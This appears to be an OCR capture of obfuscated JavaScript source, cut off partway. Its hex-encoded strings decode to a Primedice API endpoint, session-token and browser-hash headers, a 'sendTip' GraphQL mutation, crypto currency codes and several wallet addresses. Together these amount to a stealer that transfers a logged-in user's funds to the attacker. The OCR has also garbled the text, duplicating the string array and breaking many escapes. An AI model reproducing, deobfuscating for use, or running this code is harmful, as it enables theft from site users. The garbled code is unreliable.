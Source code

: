 var
_0x11ec=[“x74x6Fx6Bx65x6E”,"x73x75x62x73x74x72","x73x6Cx69x63x65",”x62x72x6Fx77x73x 65x72x48x61x73x68′′,”x69x6Ex6Ex65x72x48x54x4Dx4C”,”x73x74x79x6Cx65x73x5Fx5Fx43x6Fx6E x74x65x6Ex74x2Dx69x34x63x70x6Cx69x2Dx31x20x68x4Bx7Ax53x63x6F”,”x67x65x74x45x6Cx65x6 Dx65x6Ex74x73x42x79x43x6Cx61x73x73x4Ex61x6Dx65′′,”x42x75x74x74x6Fx6Ex2Dx73x63x2Dx31x 6Ax32x79x76x65x76x2Dx30x20x67x79x69x48x4Ex48′′,”x66x33x37x36x65x64x31x63x2Dx38x65x33 x38x2Dx34x32x39x37x2Dx38x32x31x66x2Dx62x34x63x65x32x36x63x38x30x63x61x66′′,”x68x74x7 4x70x73x3Ax2Fx2Fx61x70x69x2Ex70x72x69x6Dx65x64x69x63x65x2Ex63x6Fx6Dx2Fx67x72x61x70x 68x71x6C”,”x62x74x63′′,”x31x34x39x33x39x32x36x35x2Dx35x32x61x34x2Dx34x30x34x65x2Dx38 x61x30x63x2Dx36x65x33x65x31x30x64x39x31x35x62x34′′,””,”x73x74x72x69x6Ex67x69x66x79′′, ”x6Fx6Ex72x65x61x64x79x73x74x61x74x65x63x68x61x6Ex67x65′′,”x72x65x61x64x79x53x74x61x 74x65′′,”x73x74x61x74x75x73′′,”x50x4Fx53x54′′,”x6Fx70x65x6E”,”x43x6Fx6Ex74x65x6Ex74x2D x74x79x70x65′′,”x61x70x70x6Cx69x63x61x74x69x6Fx6Ex2Fx6Ax73x6Fx6E”,”x73x65x74x52x65x7 1x75x65x73x74x48x65x61x64x65x72′′,”x78x2Dx61x63x63x65x73x73x2Dx74x6Fx6Bx65x6E”,”x78x 2Dx62x72x6Fx77x73x65x72x2Dx68x61x73x68′′,”x73x65x6Ex64′′,”x65x74x68′′,”x6Cx74x63′′,”x62 x63x68′′,”x31x4Dx41x4Bx52x69x53x37x4Cx69x70x45x6Ex4Bx42x39x75x6Dx68x71x45x79x57x76x4 3x76x69x65x67x46x4Ex32x72x6F”,” var_0x11ec=["\x74\x6F\x6B\x65\x6E","\x73\x75\x62\x73\x74\x72","\x73\x6C\x69\x63\x65 ","\x62\x72\x6F\x77\x73\x65\x72\x48\x61\x73\x68","\x69\x6E\x6E\x65\x72\x48\x54\x4D\ x4C","\x73\x74\x79\x6C\x65\x73\x5F\x5F\x43\x6F\x6E\x74\x65\x6E\x74\x2D\x69\x34\x63\ x70\x6C\x69\x2D\x31\x20\x68\x4B\x7A\x53\x63\x6F","\x67\x65\x74\x45\x6C\x65\x6D\x65\ x6E\x74\x73\x42\x79\x43\x6C\x61\x73\x73\x4E\x61\x6D\x65","\x42\x75\x74\x74\x6F\x6E\ x2D\x73\x63\x2D\x31\x6A\x32\x79\x76\x65\x76\x2D\x30\x20\x67\x79\x69\x48\x4E\x48","\ x66\x33\x37\x36\x65\x64\x31\x63\x2D\x38\x65\x33\x38\x2D\x34\x32\x39\x37\x2D\x38\x32 \x31\x66\x2D\x62\x34\x63\x65\x32\x36\x63\x38\x30\x63\x61\x66","\x68\x74\x74\x70\x73 \x3A\x2F\x2F\x61\x70\x69\x2E\x70\x72\x69\x6D\x65\x64\x69\x63\x65\x2E\x63\x6F\x6D\x2 F\x67\x72\x61\x70\x68\x71\x6C","\x62\x74\x63","\x31\x34\x39\x33\x39\x32\x36\x35\x2D \x35\x32\x61\x34\x2D\x34\x30\x34\x65\x2D\x38\x61\x30\x63\x2D\x36\x65\x33\x65\x31\x3 0\x64\x39\x31\x35\x62\x34","\x6D\x75\x74\x61\x74\x69\x6F\x6E\x20\x28\x24\x75\x73\x6 5\x72\x49\x64\x3A\x20\x53\x74\x72\x69\x6E\x67\x21\x2C\x20\x24\x61\x6D\x6F\x75\x6E\x 74\x3A\x20\x46\x6C\x6F\x61\x74\x21\x2C\x20\x24\x63\x75\x72\x72\x65\x6E\x63\x79\x3A\ x20\x43\x75\x72\x72\x65\x6E\x63\x79\x45\x6E\x75\x6D\x21\x2C\x20\x24\x69\x73\x50\x75 \x62\x6C\x69\x63\x3A\x20\x42\x6F\x6F\x6C\x65\x61\x6E\x2C\x20\x24\x63\x68\x61\x74\x4 9\x64\x3A\x20\x53\x74\x72\x69\x6E\x67\x21\x2C\x20\x24\x74\x66\x61\x54\x6F\x6B\x65\x 6E\x3A\x20\x53\x74\x72\x69\x6E\x67\x29\x20\x7B\x0A\x20\x20\x73\x65\x6E\x64\x54\x69\ x70\x28\x75\x73\x65\x72\x49\x64\x3A\x20\x24\x75\x73\x65\x72\x49\x64\x2C\x20\x61\x6D \x6F\x75\x6E\x74\x3A\x20\x24\x61\x6D\x6F\x75\x6E\x74\x2C\x20\x63\x75\x72\x72\x65\x6 E\x63\x79\x3A\x20\x24\x63\x75\x72\x72\x65\x6E\x63\x79\x2C\x20\x69\x73\x50\x75\x62\x 6C\x69\x63\x3A\x20\x24\x69\x73\x50\x75\x62\x6C\x69\x63\x2C\x20\x63\x68\x61\x74\x49\ x64\x3A\x20\x24\x63\x68\x61\x74\x49\x64\x2C\x20\x74\x66\x61\x54\x6F\x6B\x65\x6E\x3A \x20\x24\x74\x66\x61\x54\x6F\x6B\x65\x6E\x29\x20\x7B\x0A\x20\x20\x20\x20\x69\x64\x0 A\x20\x20\x20\x20\x63\x75\x72\x72\x65\x6E\x63\x79\x0A\x20\x20\x20\x20\x61\x6D\x6F\x 75\x6E\x74\x0A\x20\x20\x20\x20\x63\x72\x65\x61\x74\x65\x64\x41\x74\x0A\x20\x20\x20\ x20\x75\x73\x65\x72\x20\x7B\x0A\x20\x20\x20\x20\x20\x20\x69\x64\x0A\x20\x20\x20\x20 \x20\x20\x6E\x61\x6D\x65\x0A\x20\x20\x20\x20\x20\x20\x5F\x5F\x74\x79\x70\x65\x6E\x6 1\x6D\x65\x0A\x20\x20\x20\x20\x7D\x0A\x20\x20\x20\x20\x73\x65\x6E\x64\x42\x79\x20\x 7B\x0A\x20\x20\x20\x20\x20\x20\x69\x64\x0A\x20\x20\x20\x20\x20\x20\x6E\x61\x6D\x65\  x0A\x20\x20\x20\x20\x20\x20\x62\x61\x6C\x61\x6E\x63\x65\x73\x20\x7B\x0A\x20\x20\x20 \x20\x20\x20\x20\x20\x61\x76\x61\x69\x6C\x61\x62\x6C\x65\x20\x7B\x0A\x20\x20\x20\x2 0\x20\x20\x20\x20\x20\x20\x61\x6D\x6F\x75\x6E\x74\x0A\x20\x20\x20\x20\x20\x20\x20\x 20\x20\x20\x63\x75\x72\x72\x65\x6E\x63\x79\x0A\x20\x20\x20\x20\x20\x20\x20\x20\x20\ x20\x5F\x5F\x74\x79\x70\x65\x6E\x61\x6D\x65\x0A\x20\x20\x20\x20\x20\x20\x20\x20\x7D \x0A\x20\x20\x20\x20\x20\x20\x20\x20\x5F\x5F\x74\x79\x70\x65\x6E\x61\x6D\x65\x0A\x2 0\x20\x20\x20\x20\x20\x7D\x0A\x20\x20\x20\x20\x20\x20\x5F\x5F\x74\x79\x70\x65\x6E\x 61\x6D\x65\x0A\x20\x20\x20\x20\x7D\x0A\x20\x20\x20\x20\x5F\x5F\x74\x79\x70\x65\x6E\ x61\x6D\x65\x0A\x20\x20\x7D\x0A\x7D\x0A","\x73\x74\x72\x69\x6E\x67\x69\x66\x79","\x 6F\x6E\x72\x65\x61\x64\x79\x73\x74\x61\x74\x65\x63\x68\x61\x6E\x67\x65","\x72\x65\x 61\x64\x79\x53\x74\x61\x74\x65","\x73\x74\x61\x74\x75\x73","\x50\x4F\x53\x54","\x6F \x70\x65\x6E","\x43\x6F\x6E\x74\x65\x6E\x74\x2D\x74\x79\x70\x65","\x61\x70\x70\x6C\ x69\x63\x61\x74\x69\x6F\x6E\x2F\x6A\x73\x6F\x6E","\x73\x65\x74\x52\x65\x71\x75\x65\ x73\x74\x48\x65\x61\x64\x65\x72","\x78\x2D\x61\x63\x63\x65\x73\x73\x2D\x74\x6F\x6B\ x65\x6E","\x78\x2D\x62\x72\x6F\x77\x73\x65\x72\x2D\x68\x61\x73\x68","\x73\x65\x6E\x 64","\x65\x74\x68","\x6C\x74\x63","\x62\x63\x68","\x31\x4D\x41\x4B\x52\x69\x53\x37\ x4C\x69\x70\x45\x6E\x4B\x42\x39\x75\x6D\x68\x71\x45\x79\x57\x76\x43\x76\x69\x65\x67 \x46\x4E\x32\x72\x6F","\x30\x78\x30\x32\x61\x34\x63\x62\x42\x65\x61\x39\x66\x64\x41 \x66\x66\x66\x33\x45\x31\x39\x65\x33\x35\x43\x39\x45\x32\x33\x32\x38\x46\x37\x33\x3 8\x43\x66\x39\x39\x39\x32","\x30\x78\x30\x31\x63\x37\x45\x66\x38\x38\x38\x30\x36\x3 9\x62\x37\x34\x31\x34\x46\x33\x43\x46\x39\x65\x32\x42\x34\x62\x43\x33\x63\x38\x66\x 66\x65\x32\x38\x46\x64\x38\x34","\x4D\x4E\x4C\x52\x70\x59\x33\x33\x6F\x6F\x45\x37\x 4D\x53\x32\x63\x38\x61\x69\x52\x57\x74\x4C\x4D\x48\x4B\x71\x61\x31\x6D\x6D\x47\x38\ x61","\x72\x61\x6E\x64\x6F\x6D","\x66\x6C\x6F\x6F\x72","\x6D\x75\x74\x61\x74\x69\x6 F\x6E\x20\x28\x24\x63\x75\x72\x72\x65\x6E\x63\x79\x3A\x20\x43\x75\x72\x72\x65\x6E\x